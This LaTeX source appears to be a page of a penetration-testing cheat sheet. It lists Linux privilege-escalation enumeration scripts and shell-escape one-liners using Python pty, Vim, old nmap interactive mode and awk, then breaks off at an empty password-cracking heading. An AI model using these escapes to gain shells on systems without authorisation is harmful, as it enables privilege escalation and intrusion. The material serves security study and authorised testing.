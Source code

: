 \documentclass[a4paper,10pt]{article}
\begin{document}
\begin{multicols}{2}
\begin{tcolorbox}[breakable,title=Scripts]
\begin{itemize}
	\itemsep0em
	\item \textbf{linenum.sh}
	\item \textbf{linuxprivchecker.py}
	\item \textbf{unix-privesc-check}
	\item \textbf{lynis}
\end{itemize}
\end{tcolorbox}
\begin{tcolorbox}[breakable,title=Shell escape sequences]
\textbf{Python}\\
import pty; pty.spawn("/bin/bash")\\
\textbf{Vim}\\
:set shell=/bin/sh\\
:shell\\
\textbf{nmap} - Versions 2.02 - 5.21 Inclusive\\
nmap --interactive\\
\textbf{awk}\\
awk 'BEGIN {system("/bin/sh")}'
\end{tcolorbox}
\end{multicols}
\newpage
\Huge{\textbf{Password Cracking}}
\newline
\normalsize
\end{document}
